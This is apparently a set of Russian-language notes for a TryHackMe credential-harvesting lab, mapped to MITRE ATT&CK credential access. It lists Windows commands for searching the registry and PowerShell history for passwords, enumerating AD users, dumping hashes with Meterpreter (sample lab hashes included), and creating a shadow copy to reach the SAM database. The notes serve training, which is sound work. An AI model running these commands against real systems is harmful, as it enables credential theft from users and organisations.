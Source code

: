 ```http
https://tryhackme.com/room/credharvesting
```
___
# Доступ к учетным данным
```http
https://attack.mitre.org/tactics/TA0006/
```

Учетные данные хранятся небезопасно в различных местах систем:
- Файлы с открытым текстом
```ps
C:\Users\USER\AppData\Roaming\Microsoft\Windows\PowerShell\PSReadLine\ConsoleHost_history.txt
```
```ps
reg query HKLM /f password /t REG_SZ /s
#OR
reg query HKCU /f password /t REG_SZ /s
```
- Файлы базы данных
- Память
- Менеджеры паролей
- Корпоративные хранилища
- Активный каталог
- Сетевой сниффинг
___

```bash
Get-ADUser -Filter * -Properties * | select Name,SamAccountName,Description
```
---
# Локальные учетные данные Windows
### HashDump Metasploit
```bash
meterpreter > getuid Server username: THM\Administrator meterpreter > hashdump Administrator:500:aad3b435b51404eeaad3b435b51404ee:98d3b784d80d18385cea5ab3aa2a4261::: Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0::: krbtgt:502:aad3b435b51404eeaad3b435b51404ee:ec44ddf5ae100b898e9edab74811430d::: CREDS-HARVESTIN$:1008:aad3b435b51404eeaad3b435b51404ee:443e64439a4b7fe780db47fc06a3342d:::
```
### Служба теневого копирования томов
1. Запустите стандартную командную строку cmd.exe с правами администратора.
2. Выполните команду wmic, чтобы создать теневую копию диска C:
3. Убедитесь, что создание, созданное на шаге 2, доступно.
4. Скопируйте базу данных SAM с тома, созданного на шаге 2.
```cmd
wmic shadowcopy call create Volume='C:\'
```

```cmd
vssadmin list shadows
```
```results
Shadow Copy Volume: \\?\GLOBALROOT\Device\HarddiskVolumeShadowCopy1
```
Вывод показывает, что мы успешно создали теневую копию тома (C:) со следующим путем: `\\?\GLOBALROOT\Device\HarddiskVolumeShadowCopy1`.
